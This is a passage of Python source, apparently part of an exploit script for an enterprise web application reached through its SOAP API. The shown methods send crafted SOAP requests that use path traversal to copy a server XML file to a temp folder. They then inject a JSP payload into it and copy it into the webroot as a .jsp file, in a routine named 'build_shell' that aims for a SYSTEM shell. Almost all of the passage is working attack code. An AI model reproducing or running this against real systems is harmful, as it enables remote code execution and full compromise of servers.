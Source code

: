 ```
            &lt;in1 xsi:type="xsd:string"&gt;%s&lt;/in1&gt;
        &lt;/api:copy&gt;
        &lt;/soapenv:Body&gt;
        &lt;/soapenv:Envelope&gt;
        """.strip() % (path0, path1)
        response = self.service_send(data)
        return '&lt;ns1:copyResponse' in response.text

    def service_main(self, tmp_path, tmp_dir):
        """Writes the payload at the end of the .xml file.
        """
        data = """
        &lt;?xml version="1.0" encoding="utf-8"?&gt;
        &lt;soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"&gt;
        &lt;soapenv:Body&gt;
        &lt;api:main
        soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"&gt;
            &lt;api:in0&gt;
                &lt;item xsi:type="xsd:string"&gt;%s&lt;/item&gt;
                &lt;item xsi:type="xsd:string"&gt;%s&lt;/item&gt;
                &lt;item xsi:type="xsd:string"&gt;%s.war&lt;/item&gt;
                &lt;item xsi:type="xsd:string"&gt;something&lt;/item&gt;
                &lt;item xsi:type="xsd:string"&gt;-addToEntityReg&lt;/item&gt;
                &lt;item xsi:type="xsd:string"&gt;&lt;![CDATA[%s]]&gt;&lt;/item&gt;
            &lt;/api:in0&gt;
        &lt;/api:main&gt;
        &lt;/soapenv:Body&gt;
        &lt;/soapenv:Envelope&gt;
        """.strip() % (tmp_path, tmp_dir, tmp_dir, PAYLOAD)
        response = self.service_send(data)

    def build_shell(self):
        """Builds a SYSTEM shell.
        """
        # On versions &gt;= 8.50, using another extension than JSP got 70 bytes
        # in return every time, for some reason.
        # Using .jsp seems to trigger caching, thus the same pivot cannot be
        # used to extract several files.
        # Again, this is just from experience, nothing confirmed
        pivot = '/%s.jsp' % self.random_string(20)
        pivot_path = self.war_path('PSOL') + pivot
        pivot_url = '/PSOL' + pivot

        # 1: Copy portletentityregistry.xml to TMP

        per = '/WEB-INF/data/portletentityregistry.xml'
        per_path = self.war_path('pspc')
        tmp_path = '../' * 20 + 'TEMP'
        tmp_dir = self.random_string(20)
        tmp_per = tmp_path + '/' + tmp_dir + per

        if not self.service_copy(per_path + per, tmp_per):
            raise RuntimeError('Unable to copy original XML file')

        # 2: Add JSP payload
        self.service_main(tmp_path, tmp_dir)

        # 3: Copy XML to JSP in webroot
        if not self.service_copy(tmp_per, pivot_path):
            raise RuntimeError('Unable to copy modified XML file')
```
